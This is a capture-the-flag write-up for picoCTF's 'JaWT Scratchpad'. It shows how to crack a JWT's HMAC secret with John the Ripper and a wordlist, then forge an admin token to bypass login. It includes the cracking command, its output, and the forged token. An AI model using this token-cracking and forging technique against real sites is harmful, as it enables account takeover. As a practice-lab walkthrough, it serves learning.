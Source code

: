 # JaWT Scratchpad

Start the challenge, we can login with any username, other than admin. When I try to log in as `admin`, I got:

YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.

To slove this challenge, may be I colde be the admin. Login as `test`, I got a scratchpad to write any things.

Reload this page and notice the request in the Burp suite, you will see a specail cookie:

`jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA`

This cookie means that this challenge verifies its user by JWT web token. Therefore, to become the admin, I need to find the secret key of this JWT token.

With [jwt.io](https://jwt.io/) I found the `VERIFY SIGNATURE` of this token in mode `HMACSHA256`. Using `John`, I found the secret key is `ilovepico`

```
$ cat jwt_picoCTF.txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCJ9.IAu_YSHppFe8hXH_BSPb4OLJYGUi8wXqXdS0T33cKbA

$ john jwt_picoCTF.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2022-01-23 19:03) 0.2724g/s 2015Kp/s 2015Kc/s 2015KC/s ilovepinky53..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Add the secret key to `VERIFY SIGNATURE` in [jwt.io](https://jwt.io/) and change `"user": "test"` to `"user": "admin"`, we got the new JWT token:

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.jQ4HVprBiAgctoCSd2vl5kntoB35ftKQf8aTchKr2rY`

Repalce the current JWT token by the new, we will get the flag!
